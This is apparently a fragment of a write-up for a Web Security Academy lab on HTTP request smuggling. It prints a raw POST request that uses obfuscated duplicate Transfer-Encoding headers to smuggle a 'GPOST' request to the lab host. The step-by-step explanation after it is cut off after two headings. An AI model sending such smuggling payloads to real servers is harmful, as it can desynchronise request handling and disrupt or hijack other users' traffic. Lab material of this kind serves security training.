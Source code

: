 ```
POST / HTTP/1.1
Host: 0a8400db04dd94f28086ea3b00dd00f7.web-security-academy.net
Priority: u=0, i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Transfer-Encoding:chunked
Transfer-Encoding:helloworld

3
abc
1
G
56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0
```

<img src="images/image1.png" alt="third" width="500">

**Step1:**

This lab is very simplie to previous we have to

**Step2:**

TO solve this lab we use
